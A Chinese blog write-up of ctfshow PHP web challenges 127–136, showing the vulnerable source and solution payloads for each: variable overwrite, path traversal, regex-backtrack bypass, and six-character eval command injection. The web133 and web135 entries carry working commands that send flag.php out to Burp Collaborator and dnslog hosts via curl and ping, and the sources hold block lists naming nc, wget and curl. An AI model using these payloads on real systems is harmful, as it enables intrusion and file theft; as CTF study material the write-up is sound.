<h2 id="解题-32"><a href="#解题-32" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#限制住了关键字符，导致无法使用上一题的WP</span></span><br><span class="line"><span class="comment">#限制$c的传入长度</span></span><br><span class="line"><span class="comment">#思路：</span></span><br><span class="line"><span class="comment">#1.直接获取文件信息并高亮（X）</span></span><br><span class="line"><span class="comment">#2.直接获取变量值（X）</span></span><br><span class="line"><span class="comment">#3.覆盖变量值，让它自动输出flag（√）</span></span><br><span class="line"><span class="comment">#具体怎么绕并且覆盖？</span></span><br><span class="line"></span><br><span class="line">GET: ?a=<span class="number">1000</span>+fl0g=flag_give_me</span><br><span class="line">POST:CTF_SHOW=&amp;CTF[SHOW.COM=&amp;fun=<span class="title function_ invoke__">parse_str</span>(<span class="variable">$a</span>[<span class="number">1</span>])</span><br><span class="line">                   </span><br><span class="line"><span class="comment">#读取的原理：</span></span><br><span class="line">a=<span class="number">1000</span>+fl0g=flag_give_me</span><br><span class="line"><span class="comment"># 这个进行的是一个类似于cli的脚本调用</span></span><br><span class="line"><span class="comment"># +代表空格，脚本的读取是按照空格进行分割的</span></span><br><span class="line"><span class="comment"># 用列表的角度理解就相当于传入了：[1000,fl0g=flag_give_me]</span></span><br><span class="line"><span class="title function_ invoke__">parse_str</span>(<span class="variable">$a</span>[<span class="number">1</span>])</span><br><span class="line"><span class="comment"># 这个使用的是$_SERVER[&#x27;argv&#x27;];</span></span><br><span class="line"><span class="comment"># 脚本的文件名总是作为参数传递给当前脚本</span></span><br><span class="line"><span class="comment"># 这里是通过$a进行选择</span></span><br><span class="line"><span class="comment"># 选择1的时候就选到了fl0g=flag_give_me</span></span><br><span class="line"><span class="comment"># parse_str：将字符串解析成多个变量</span></span><br><span class="line"><span class="comment">#此时就相当于执行了：</span></span><br><span class="line">fl0g=<span class="string">&#x27;flag_give_me&#x27;</span></span><br><span class="line"><span class="comment">#于是绕过了</span></span><br><span class="line">fl0g===<span class="string">&quot;flag_give_me</span></span><br></pre></td></tr></table></figure>

<h1 id="web127"><a href="#web127" class="headerlink" title="web127"></a>web127</h1><h2 id="原始信息-36"><a href="#原始信息-36" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="variable">$ctf_show</span> = <span class="title function_ invoke__">md5</span>(<span class="variable">$flag</span>);</span><br><span class="line"><span class="comment"># 截取url的&quot;?&quot;后面的字符串</span></span><br><span class="line"><span class="variable">$url</span> = <span class="variable">$_SERVER</span>[<span class="string">&#x27;QUERY_STRING&#x27;</span>];</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment">//特殊字符检测</span></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$url</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\&#123;|\;|\:|\[|\]|\&#125;|\&#x27;|\&quot;|\&lt;|\,|\&gt;|\.|\\\|\//&#x27;</span>, <span class="variable">$url</span>))&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="literal">true</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="literal">false</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">waf</span>(<span class="variable">$url</span>))&#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;嗯哼？&quot;</span>);</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">extract</span>(<span class="variable">$_GET</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$ctf_show</span>===<span class="string">&#x27;ilove36d&#x27;</span>)&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-33"><a href="#解题-33" class="headerlink" title="解题"></a>解题</h2><p>首先看看没封禁的ascii有哪些：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">[空格],%,&amp;,=,?,|</span><br><span class="line">0,1,2,3,4,5,6,7,8,9</span><br><span class="line">A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z</span><br><span class="line">a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z</span><br></pre></td></tr></table></figure>

<p>waf唯独能包含上面的字符，超出则直接截断。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">extract</span>(<span class="variable">$_GET</span>);<span class="comment"># 将数组变成变量和值的关系</span></span><br><span class="line"><span class="variable">$ctf_show</span>===<span class="string">&#x27;ilove36d&#x27;</span>;<span class="comment">#获取flag的条件</span></span><br><span class="line"><span class="comment">#这个题目也是想要进行变量覆盖，直接调用extract覆盖即可</span></span><br><span class="line">GET:?ctf show=ilove36d <span class="comment">//[空格] 是会转换为 &quot;_&quot; 的</span></span><br></pre></td></tr></table></figure>

<h1 id="web128"><a href="#web128" class="headerlink" title="web128"></a>web128</h1><h2 id="原始信息-37"><a href="#原始信息-37" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"><span class="variable">$f1</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;f1&#x27;</span>];</span><br><span class="line"><span class="variable">$f2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;f2&#x27;</span>];</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">check</span>(<span class="variable">$f1</span>))&#123;</span><br><span class="line">    <span class="title function_ invoke__">var_dump</span>(<span class="title function_ invoke__">call_user_func</span>(<span class="title function_ invoke__">call_user_func</span>(<span class="variable">$f1</span>,<span class="variable">$f2</span>)));</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;嗯哼？&quot;</span>;</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">return</span> !<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/[0-9]|[a-z]/i&#x27;</span>, <span class="variable">$str</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-34"><a href="#解题-34" class="headerlink" title="解题"></a>解题</h2><p>没过滤的ascii：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">[<span class="string">&#x27; &#x27;</span>, <span class="string">&#x27;!&#x27;</span>, <span class="string">&#x27;&quot;&#x27;</span>, <span class="string">&#x27;#&#x27;</span>, <span class="string">&#x27;$&#x27;</span>, <span class="string">&#x27;%&#x27;</span>, <span class="string">&#x27;&amp;&#x27;</span>, <span class="string">&quot;&#x27;&quot;</span>, <span class="string">&#x27;(&#x27;</span>, <span class="string">&#x27;)&#x27;</span>, <span class="string">&#x27;*&#x27;</span>, <span class="string">&#x27;+&#x27;</span>, <span class="string">&#x27;,&#x27;</span>, <span class="string">&#x27;-&#x27;</span>, <span class="string">&#x27;.&#x27;</span>, <span class="string">&#x27;/&#x27;</span>, <span class="string">&#x27;:&#x27;</span>, <span class="string">&#x27;;&#x27;</span>, <span class="string">&#x27;&lt;&#x27;</span>, <span class="string">&#x27;=&#x27;</span>, <span class="string">&#x27;&gt;&#x27;</span>, <span class="string">&#x27;?&#x27;</span>, <span class="string">&#x27;@&#x27;</span>, <span class="string">&#x27;[&#x27;</span>, <span class="string">&#x27;\\&#x27;</span>, <span class="string">&#x27;]&#x27;</span>, <span class="string">&#x27;^&#x27;</span>, <span class="string">&#x27;_&#x27;</span>, <span class="string">&#x27;`&#x27;</span>, <span class="string">&#x27;&#123;&#x27;</span>, <span class="string">&#x27;|&#x27;</span>, <span class="string">&#x27;&#125;&#x27;</span>, <span class="string">&#x27;~&#x27;</span>]</span><br></pre></td></tr></table></figure>

<p>这是个无参调用</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">小知识点： <span class="title function_ invoke__">_</span>()是一个函数</span><br><span class="line"><span class="title function_ invoke__">_</span>()==<span class="title function_ invoke__">gettext</span>() 是<span class="title function_ invoke__">gettext</span>()的拓展函数，开启text扩展(gettext)。</span><br><span class="line">    需要php扩展目录下有php_gettext.dll</span><br><span class="line"><span class="title function_ invoke__">get_defined_vars</span>()函数</span><br><span class="line">get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 <span class="variable">$flag</span></span><br><span class="line">payload: ?f1=_&amp;f2=get_defined_vars</span><br></pre></td></tr></table></figure>

<h1 id="web129"><a href="#web129" class="headerlink" title="web129"></a>web129</h1><h2 id="原始信息-38"><a href="#原始信息-38" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;f&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$f</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;f&#x27;</span>];</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$f</span>, <span class="string">&#x27;ctfshow&#x27;</span>)&gt;<span class="number">0</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="title function_ invoke__">readfile</span>(<span class="variable">$f</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-35"><a href="#解题-35" class="headerlink" title="解题"></a>解题</h2><p>目录穿越漏洞</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?f=../ctfshow/../../../../../../../<span class="keyword">var</span>/www/html/flag.php</span><br><span class="line"><span class="comment"># 解析到根目录路径，再找到flag目录即可</span></span><br></pre></td></tr></table></figure>


<h1 id="web130"><a href="#web130" class="headerlink" title="web130"></a>web130</h1><h2 id="原始信息-39"><a href="#原始信息-39" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;f&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$f</span> = <span class="variable">$_POST</span>[<span class="string">&#x27;f&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/.+?ctfshow/is&#x27;</span>, <span class="variable">$f</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;bye!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$f</span>, <span class="string">&#x27;ctfshow&#x27;</span>) === <span class="literal">FALSE</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;bye!!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-36"><a href="#解题-36" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line">f=ctfshow</span><br></pre></td></tr></table></figure>

<h1 id="web131"><a href="#web131" class="headerlink" title="web131"></a>web131</h1><h2 id="原始信息-40"><a href="#原始信息-40" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;f&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$f</span> = (String)<span class="variable">$_POST</span>[<span class="string">&#x27;f&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/.+?ctfshow/is&#x27;</span>, <span class="variable">$f</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;bye!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">stripos</span>(<span class="variable">$f</span>,<span class="string">&#x27;36Dctfshow&#x27;</span>) === <span class="literal">FALSE</span>)&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;bye!!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-37"><a href="#解题-37" class="headerlink" title="解题"></a>解题</h2><p>懂了，出题人喜欢36D（doge）</p>
<p>使用下面这个生成字符，并且放到post进行溢出攻击即可。</p>
<p>这是正则表达式溢出攻击。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">echo</span> <span class="title function_ invoke__">str_repeat</span>(<span class="string">&#x27;very&#x27;</span>, <span class="string">&#x27;250000&#x27;</span>).<span class="string">&#x27;36Dctfshow&#x27;</span>;</span><br></pre></td></tr></table></figure>

<p>具体参照：<a target="_blank" rel="noopener" href="https://www.laruence.com/2010/06/08/1579.html">https://www.laruence.com/2010/06/08/1579.html</a></p>
<h1 id="web132"><a href="#web132" class="headerlink" title="web132"></a>web132</h1><h2 id="原始信息-41"><a href="#原始信息-41" class="headerlink" title="原始信息"></a>原始信息</h2><p>网站是一个模板博客网站，使用扫站扫出了一些东西：</p>
<figure class="highlight html"><table><tr><td class="code"><pre><span class="line">/robots.txt</span><br><span class="line">内容：</span><br><span class="line">Disallow: /admin</span><br></pre></td></tr></table></figure>

<p>前往/admin得到：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#error_reporting(0);</span></span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;username&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;password&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;code&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$username</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;username&#x27;</span>];</span><br><span class="line">    <span class="variable">$password</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;password&#x27;</span>];</span><br><span class="line">    <span class="variable">$code</span> = (String)<span class="variable">$_GET</span>[<span class="string">&#x27;code&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$code</span> === <span class="title function_ invoke__">mt_rand</span>(<span class="number">1</span>,<span class="number">0x36D</span>) &amp;&amp; <span class="variable">$password</span> === <span class="variable">$flag</span> || <span class="variable">$username</span> ===<span class="string">&quot;admin&quot;</span>)&#123;</span><br><span class="line">        </span><br><span class="line">        <span class="keyword">if</span>(<span class="variable">$code</span> == <span class="string">&#x27;admin&#x27;</span>)&#123;</span><br><span class="line">            <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        </span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-38"><a href="#解题-38" class="headerlink" title="解题"></a>解题</h2><p>此处引用某大佬博客</p>
<blockquote>
<p><a target="_blank" rel="noopener" href="https://www.cnblogs.com/hurry-up/p/10220082.html">https://www.cnblogs.com/hurry-up/p/10220082.html</a></p>
<p>对于“与”（**&amp;&amp;<strong>） 运算： <strong>x &amp;&amp; y</strong> 当</strong>x<strong>为</strong>false<strong>时，直接跳过，不执行</strong>y<strong>；<br>对于“或”（</strong>||<strong>） 运算 ：  <strong>x||y</strong> 当</strong>x<strong>为</strong>true<strong>时，直接跳过，不执行</strong>y**。</p>
</blockquote>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="variable">$code</span> === <span class="title function_ invoke__">mt_rand</span>(<span class="number">1</span>,<span class="number">0x36D</span>) &amp;&amp; <span class="variable">$password</span> === <span class="variable">$flag</span> || <span class="variable">$username</span> ===<span class="string">&quot;admin&quot;</span>);</span><br><span class="line"><span class="comment"># 当code为false时，会直接跳转到末尾的username判断该语句是否为true</span></span><br><span class="line"><span class="comment"># 构造就便利了：</span></span><br><span class="line">?code=admin&amp;password=<span class="number">1</span>&amp;username=admin</span><br></pre></td></tr></table></figure>

<h1 id="web133"><a href="#web133" class="headerlink" title="web133"></a>web133</h1><h2 id="原始信息-42"><a href="#原始信息-42" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="comment">//flag.php</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$F</span> = @<span class="variable">$_GET</span>[<span class="string">&#x27;F&#x27;</span>])&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/system|nc|wget|exec|passthru|netcat/i&#x27;</span>, <span class="variable">$F</span>))&#123;</span><br><span class="line">        <span class="keyword">eval</span>(<span class="title function_ invoke__">substr</span>(<span class="variable">$F</span>,<span class="number">0</span>,<span class="number">6</span>));</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;6个字母都还不够呀?!&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-39"><a href="#解题-39" class="headerlink" title="解题"></a>解题</h2><p>带外访问</p>
<ol>
<li>在burp当作左上角 “BURP” =&gt;“Burp Collaborator客户端”</li>
<li>在这客户端内：协助者有效负载生成  =&gt;复制到剪贴板</li>
<li>url在浏览器进行如下访问：</li>
</ol>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?F=`<span class="variable">$F</span>`;+curl -X POST -F xx=@flag.php http:<span class="comment">//uljnf26qzf4lmzmqgxfzhfeleck28r.burpcollaborator.net</span></span><br><span class="line">uljnf26qzf4lmzmqgxfzhfeleck28r.burpcollaborator.net =&gt; 刚刚从剪贴板获取到的东西</span><br></pre></td></tr></table></figure>

<ol start="4">
<li>访问后，再在那个客户端点击：“现在轮询”，找到http包找回显即可得到flag</li>
</ol>
<p>关于命令的解释</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">eval</span>(<span class="title function_ invoke__">substr</span>(<span class="variable">$F</span>,<span class="number">0</span>,<span class="number">6</span>));</span><br><span class="line">传入`<span class="variable">$F</span>`;+curl -X...;</span><br><span class="line">相当于：</span><br><span class="line">    ``<span class="variable">$F</span>`;+curl -X`</span><br><span class="line">个人理解：</span><br><span class="line">	`<span class="variable">$F</span>`;+	=&gt;刚刚好<span class="number">6</span>字符，后面都以``的形式执行。</span><br><span class="line">    ``==<span class="title function_ invoke__">shell_exec</span>();</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment"># payload </span></span><br><span class="line"><span class="comment">#其中-F 为带文件的形式发送post请求</span></span><br><span class="line"><span class="comment">#xx是上传文件的name值，flag.php就是上传的文件 </span></span><br><span class="line">?F=`<span class="variable">$F</span>`;+curl -X POST -F xx=@flag.php  http:<span class="comment">//uljnf26qzf4lmzmqgxfzhfeleck28r.burpcollaborator.net</span></span><br><span class="line"></span><br><span class="line">参照博客：</span><br><span class="line">    https:<span class="comment">//blog.csdn.net/qq_46091464/article/details/109095382</span></span><br><span class="line">	https:<span class="comment">//www.cnblogs.com/meng-han/p/16809053.html</span></span><br></pre></td></tr></table></figure>

<h1 id="web134"><a href="#web134" class="headerlink" title="web134"></a>web134</h1><h2 id="原始信息-43"><a href="#原始信息-43" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="variable">$key1</span> = <span class="number">0</span>;</span><br><span class="line"><span class="variable">$key2</span> = <span class="number">0</span>;</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;key1&#x27;</span>]) || <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;key2&#x27;</span>]) || <span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;key1&#x27;</span>]) || <span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;key2&#x27;</span>])) &#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="string">&quot;nonononono&quot;</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="comment"># 获取get参数并且解析为变量</span></span><br><span class="line">@<span class="title function_ invoke__">parse_str</span>(<span class="variable">$_SERVER</span>[<span class="string">&#x27;QUERY_STRING&#x27;</span>]);</span><br><span class="line"><span class="comment"># 将POST数组解析为变量</span></span><br><span class="line"><span class="title function_ invoke__">extract</span>(<span class="variable">$_POST</span>);</span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$key1</span> == <span class="string">&#x27;36d&#x27;</span> &amp;&amp; <span class="variable">$key2</span> == <span class="string">&#x27;36d&#x27;</span>) &#123;</span><br><span class="line">    <span class="keyword">die</span>(<span class="title function_ invoke__">file_get_contents</span>(<span class="string">&#x27;flag.php&#x27;</span>));</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-40"><a href="#解题-40" class="headerlink" title="解题"></a>解题</h2><p>覆盖POST数组</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET: ?_POST[key1]=<span class="number">36</span>d&amp;_POST[key2]=<span class="number">36</span>d</span><br><span class="line"><span class="comment"># 转换的方式：</span></span><br><span class="line"><span class="comment"># _POST[key1]=36d&amp;_POST[key2]=36d  --parse_str--&gt; </span></span><br><span class="line"><span class="comment"># $_POST[key1=&gt;36d,key2=&gt;36d] --extract--&gt; </span></span><br><span class="line"><span class="comment"># $key1=36d;$key2=36d;</span></span><br></pre></td></tr></table></figure>

<h1 id="web135"><a href="#web135" class="headerlink" title="web135"></a>web135</h1><h2 id="原始信息-44"><a href="#原始信息-44" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="comment">//flag.php</span></span><br><span class="line"><span class="keyword">if</span>(<span class="variable">$F</span> = @<span class="variable">$_GET</span>[<span class="string">&#x27;F&#x27;</span>])&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i&#x27;</span>, <span class="variable">$F</span>))&#123;</span><br><span class="line">        <span class="keyword">eval</span>(<span class="title function_ invoke__">substr</span>(<span class="variable">$F</span>,<span class="number">0</span>,<span class="number">6</span>));</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;师傅们居然破解了前面的，那就来一个加强版吧&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-41"><a href="#解题-41" class="headerlink" title="解题"></a>解题</h2><p>其它什么的先不说，先看官方给的WP：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">`<span class="variable">$F</span>`;+ping `cat flag.php|awk <span class="string">&#x27;NR==2&#x27;</span>`<span class="number">.6</span>x1sys.dnslog.cn</span><br><span class="line"><span class="comment">#通过ping命令去带出数据，然后awk NR一排一排的获得数据</span></span><br></pre></td></tr></table></figure>

<p>让后……</p>
<p>在DNSLOG以及相关的网站死活带外不出去……</p>
<p>别提有多裂开了。</p>
<p>看了下解题的视频，有个比较灵活的大佬说可以修改文件或者复制文件读取，于是乎试验了下，踩了踩坑，才发现这个卡了我差不多几小时的题目是这么个玩法……</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 前面保持不变，改变后面shell的地方：</span></span><br><span class="line">GET:?F=`<span class="variable">$F</span>`;+`cp flag.php flag.txt`</span><br><span class="line"><span class="comment"># 然后访问那个被你copy的flag.txt即可</span></span><br><span class="line"><span class="comment"># 记住，有txt的一定是明文，可以直接读取的。</span></span><br><span class="line"></span><br><span class="line"><span class="comment"># 不过既然都有cp操作了，那nl直接导入不就行了？</span></span><br><span class="line"><span class="comment"># 显然，这个题目的操作不止带外一种</span></span><br></pre></td></tr></table></figure>

<p>这个是做视频的前辈写的shell：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">GET:?F=`<span class="variable">$F</span>`;+ping `<span class="built_in">nl</span> flag.php|awk <span class="string">&#x27;NR==16&#x27;</span>|<span class="built_in">tr</span> -<span class="built_in">cd</span> <span class="string">&quot;[a-z]&quot;</span>/<span class="string">&quot;[0-9]&quot;</span>`.ske28a.dnslog.cn -c 1</span><br></pre></td></tr></table></figure>


<h1 id="web136"><a href="#web136" class="headerlink" title="web136"></a>web136</h1><h2 id="原始信息-45"><a href="#原始信息-45" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"> <span class="meta">&lt;?php</span></span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">check</span>(<span class="params"><span class="variable">$x</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\\$|\.|\!|\@|\#|\%|\^|\&amp;|\*|\?|\&#123;|\&#125;|\&gt;|\&lt;|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i&#x27;</span>, <span class="variable">$x</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;too young too simple sometimes naive!&#x27;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$c</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;c&#x27;</span>];</span><br><span class="line">    <span class="title function_ invoke__">check</span>(<span class="variable">$c</span>);</span><br><span class="line">    <span class="title function_ invoke__">exec</span>(<span class="variable">$c</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line">&#125;</span><br><span class="line"><span class="meta">?&gt;</span> </span><br></pre></td></tr></table></figure>

<h2 id="解题-42"><a href="#解题-42" class="headerlink" title="解题"></a>解题</h2><p>这个一个带waf的Linux shell，需要传入Linux命令读取其中的内容再返还到某个文件下载即可</p>
<p>因为限制了很多符号和执行函数，其中也包括了点，导致无法写成类似于.txt的形式进行在线访问。</p>
<p>最终只能无后缀下载。</p>
